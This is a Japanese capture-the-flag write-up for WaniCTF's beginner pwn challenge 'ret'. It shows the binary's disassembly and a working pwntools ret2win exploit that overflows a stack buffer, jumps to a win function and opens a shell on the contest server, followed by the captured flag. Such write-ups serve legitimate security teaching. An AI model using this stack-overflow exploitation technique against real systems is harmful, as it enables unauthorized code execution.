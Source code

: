 # ret rewrite:PWN:pts
nc ret.wanictf.org 9005  
- stackの仕組みを学びましょう。  
- 関数の戻りアドレスはstackに積まれます。  
- "congraturation"が出力されてもスタックのアライメントの問題でwin関数のアドレスから少しずらす必要がある場合があります。  
- (echo -e "\x11\x11\x11\x11\x11\x11"; cat) | nc ret.wanictf.org 9005  
- 念のためpwntoolsのサンプルプログラム「pwn05_sample.py」を載せておきました。  

使用ツール例  
- cat  
- [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)  
- echo  
- [pwntools](https://github.com/wani-hackase/memo-setup-pwn-utils#pwntools)  

セキュリティ保護  
- Partial RELocation ReadOnly (RELRO)  
- Stack Smash Protection (SSP)無効  
- No eXecute bit(NX)有効  
- Position Independent Executable (PIE)無効  

[pwn05](pwn05)　　　　[pwn05.c](pwn05.c)　　　　[pwn05_sample.py](pwn05_sample.py)  

# Solution
pwn05が配られる。  
objdumpで中を確認する。  
```bash
$ objdump -D pwn05
~~~
0000000000400837 <win>:
  400837:       55                      push   %rbp
  400838:       48 89 e5                mov    %rsp,%rbp
  40083b:       48 8d 3d 92 02 00 00    lea    0x292(%rip),%rdi        # 400ad4 <_IO_stdin_used+0x4>
  400842:       e8 79 fe ff ff          callq  4006c0 <puts@plt>
  400847:       48 8d 3d 96 02 00 00    lea    0x296(%rip),%rdi        # 400ae4 <_IO_stdin_used+0x14>
  40084e:       e8 ad fe ff ff          callq  400700 <system@plt>
  400853:       bf 00 00 00 00          mov    $0x0,%edi
  400858:       e8 e3 fe ff ff          callq  400740 <exit@plt>

000000000040085d <vuln>:
  40085d:       55                      push   %rbp
  40085e:       48 89 e5                mov    %rsp,%rbp
  400861:       48 83 ec 10             sub    $0x10,%rsp
  400865:       48 8d 3d 80 02 00 00    lea    0x280(%rip),%rdi        # 400aec <_IO_stdin_used+0x1c>
  40086c:       b8 00 00 00 00          mov    $0x0,%eax
  400871:       e8 9a fe ff ff          callq  400710 <printf@plt>
  400876:       48 8d 45 f2             lea    -0xe(%rbp),%rax
  40087a:       ba 00 01 00 00          mov    $0x100,%edx
  40087f:       48 89 c6                mov    %rax,%rsi
  400882:       bf 00 00 00 00          mov    $0x0,%edi
  400887:       e8 a4 fe ff ff          callq  400730 <read@plt>
  40088c:       89 45 fc                mov    %eax,-0x4(%rbp)
  40088f:       8b 45 fc                mov    -0x4(%rbp),%eax
  400892:       83 e8 01                sub    $0x1,%eax
  400895:       48 98                   cltq
  400897:       c6 44 05 f2 00          movb   $0x0,-0xe(%rbp,%rax,1)
  40089c:       48 8d 3d d5 07 20 00    lea    0x2007d5(%rip),%rdi        # 601078 <str_head>
  4008a3:       e8 38 fe ff ff          callq  4006e0 <strlen@plt>
  4008a8:       48 89 c2                mov    %rax,%rdx
  4008ab:       48 8d 35 c6 07 20 00    lea    0x2007c6(%rip),%rsi        # 601078 <str_head>
  4008b2:       bf 00 00 00 00          mov    $0x0,%edi
  4008b7:       e8 14 fe ff ff          callq  4006d0 <write@plt>
  4008bc:       48 8d 45 f2             lea    -0xe(%rbp),%rax
  4008c0:       48 89 c7                mov    %rax,%rdi
  4008c3:       e8 18 fe ff ff          callq  4006e0 <strlen@plt>
  4008c8:       48 89 c2                mov    %rax,%rdx
  4008cb:       48 8d 45 f2             lea    -0xe(%rbp),%rax
  4008cf:       48 89 c6                mov    %rax,%rsi
  4008d2:       bf 00 00 00 00          mov    $0x0,%edi
  4008d7:       e8 f4 fd ff ff          callq  4006d0 <write@plt>
  4008dc:       48 8d 3d 9c 07 20 00    lea    0x20079c(%rip),%rdi        # 60107f <str_tail>
  4008e3:       e8 f8 fd ff ff          callq  4006e0 <strlen@plt>
  4008e8:       48 89 c2                mov    %rax,%rdx
  4008eb:       48 8d 35 8d 07 20 00    lea    0x20078d(%rip),%rsi        # 60107f <str_tail>
  4008f2:       bf 00 00 00 00          mov    $0x0,%edi
  4008f7:       e8 d4 fd ff ff          callq  4006d0 <write@plt>
  4008fc:       48 89 ea                mov    %rbp,%rdx
  4008ff:       48 89 e0                mov    %rsp,%rax
  400902:       48 89 d6                mov    %rdx,%rsi
  400905:       48 89 c7                mov    %rax,%rdi
  400908:       e8 6a 00 00 00          callq  400977 <debug_stack_dump>
  40090d:       90                      nop
  40090e:       c9                      leaveq
  40090f:       c3                      retq

0000000000400910 <main>:
  400910:       55                      push   %rbp
  400911:       48 89 e5                mov    %rsp,%rbp
  400914:       b8 00 00 00 00          mov    $0x0,%eax
  400919:       e8 0c 00 00 00          callq  40092a <init>
  40091e:       b8 00 00 00 00          mov    $0x0,%eax
  400923:       e8 35 ff ff ff          callq  40085d <vuln>
  400928:       eb f4                   jmp    40091e <main+0xe>
~~~
```
ret2winを行えばよい。  
以下のpwnpwn05.pyで行う。  
```python:pwnpwn05.py
from pwn import *

elf = ELF('./pwn05')
io = remote("ret.wanictf.org", 9005)
#io = process(elf.path)
rop = ROP(elf)

win = elf.symbols['win']
ret = (rop.find_gadget(['ret']))[0]

io.readuntil("What's your name?: ")

base = b'A' * 22
payload = base + p64(ret) + p64(win)
io.sendline(payload)
io.interactive()
```
実行する。  
```bash
$ python pwnpwn05.py
[*] '/pwn05'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to ret.wanictf.org on port 9005: Done
[*] Loaded 14 cached gadgets for './pwn05'
[*] Switching to interactive mode
Hello AAAAAAAAAA'!

***start stack dump***
0x7ffdee308980: 0x4141414141418a80 <- rsp
0x7ffdee308988: 0x0000002741414141
0x7ffdee308990: 0x4141414141414141 <- rbp
0x7ffdee308998: 0x0000000000400696 <- return address
0x7ffdee3089a0: 0x0000000000400837
0x7ffdee3089a8: 0x00007efd73ef9b00
0x7ffdee3089b0: 0x0000000000000001
***end stack dump***

congratulation!
$ ls
chall
flag.txt
redir.sh
$ cat flag.txt
FLAG{1earning-how-return-address-w0rks-on-st4ck}
$
[*] Interrupted
```
flagが得られた。  

## FLAG{1earning-how-return-address-w0rks-on-st4ck}